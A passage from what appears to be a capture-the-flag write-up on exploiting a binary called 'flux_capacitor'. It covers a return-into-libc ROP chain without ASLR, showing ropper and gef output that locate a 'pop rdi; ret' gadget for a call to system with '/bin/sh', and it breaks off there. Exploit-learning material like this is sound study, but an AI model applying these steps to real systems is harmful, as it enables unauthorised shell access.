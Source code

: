 ![Pattern](/assets/images/Flux/pattern.png)

The exploitation steps for the no-ASLR scenario are really well documented in [Introduction to x64 Linux Binary Exploitation (Part 2)—return into libc](https://valsamaras.medium.com/introduction-to-x64-binary-exploitation-part-2-return-into-libc-c325017f465). We need to put together a few pieces, mainly the address of `system` function, the address for a `POP RDI` instruction, and a few others.

<div class="box-note">
While some of the gadgets can be found in the vulnerable binary itself, we can’t get everything from there so we need more gadgets and strings from <code>libc</code>.
</div>

Find a POP RDI instruction:

```bash
$ ropper
(ropper)> file flux_capacitor
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.

(flux_capacitor/ELF/x86_64)> search /1/ pop rdi
[INFO] Searching for gadgets: pop rdi
[INFO] File: flux_capacitor
0x0000000000400953: pop rdi; ret;
```

Confirm we found the correct instruction:

```asm
gef➤ x/2i 0x0000000000400953
0x400953 <__libc_csu_init+99>: pop rdi
0x400954 <__libc_csu_init+100>: ret
```

Next find an occurance of `/bin/sh` script, which we’ll use as a parameter to `system` function call:

